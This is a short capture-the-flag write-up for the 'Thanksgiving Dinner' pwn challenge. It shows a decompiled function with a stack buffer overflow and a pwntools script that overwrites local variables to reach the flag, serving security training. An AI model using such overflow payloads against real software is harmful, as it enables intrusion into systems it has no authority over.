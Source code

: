 # Thanksgiving Dinner
> LongChampion, 06/04/2020

## Challenge
Well, look at `vulnerable` function:
```cpp
char *vulnerable()
{
  char *result; // eax
  char s; // [esp+Ch] [ebp-2Ch]
  int A; // [esp+1Ch] [ebp-1Ch]
  int B; // [esp+20h] [ebp-18h]
  int C; // [esp+24h] [ebp-14h]
  int D; // [esp+28h] [ebp-10h]
  int E; // [esp+2Ch] [ebp-Ch]

  puts("Hey I heard you are searching for flags! Well I've got one. :)");
  puts("Here you can have part of it!");
  puts("auctf{");
  puts("\nSorry that's all I got!\n");
  E = 0;
  D = 10;
  C = 20;
  B = 20;
  A = 2;
  result = fgets(&s, 0x24, stdin);
  if ( E == 0x1337 && D < (signed int)0xFFFFFFEC && B != 0x14 && C == 0x667463 && A == 0x2A )
    print_flag();
  return result;
}
```
Too easy, just overwrite `A`, `B`, `C`, `D` and `E` with appropriate value to get the flag.

## Solution
```python
#!/usr/bin/env python2

from pwn import *
context.binary = "./turkey"

r = remote("challenges.auctf.com", 30011)
payload = 'A'*0x10 + p32(0x2a) + p32(0x15) + \
    p32(0x667463) + p32(0xFFFFFFEC-1) + p32(0x1337)
r.sendlineafter("Sorry that's all I got!", payload)
print r.recvall()
```
